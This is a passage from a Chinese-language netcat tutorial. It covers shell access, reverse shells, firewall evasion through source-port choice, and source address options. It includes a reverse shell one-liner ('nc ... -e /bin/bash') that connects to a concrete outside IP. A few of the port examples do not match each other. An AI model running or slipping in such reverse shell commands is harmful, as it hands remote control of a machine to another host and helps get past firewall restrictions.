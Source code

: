 - Client

```bash
nc 110.40.137.191 10001
(shell prompt from host.example.com)
```

你会得到一个 shell 提示符在客户端

### 反向 shell

反向 shell 又称反弹 shell，是指在客户端打开的 shell。反向 shell 这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

- Server

```bash
nc -l 10001
```

在客户端，简单地告诉 netcat 在连接完成后，执行 shell。

- Client

```bash
nc 110.40.137.191 10001 -e /bin/bash
```

现在，什么是反向 shell 的特别之处呢
反向 shell 经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用 IP 地址为 192.168.10.1，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如 1.2.3.4 的 shell，那么我会用反向外壳用于这一目的。

### 指定源端口

假设你的防火墙过滤除 25 端口外其它所有端口，你需要使用-p 选项指定源端口。

- Server

```bash
nc -l 10001
```

- Client

```bash
nc 110.40.137.191 10001 25
```

使用 1024 以内的端口需要 root 权限。
该命令将在客户端开启 25 端口用于通讯，否则将使用随机端口。

### 指定源地址

- Server

```bash
nc -u -l 20000 < file.txt
```

- Client

```bash
nc -u 110.40.137.191 10001 -s 172.31.100.5 > file.txt
```
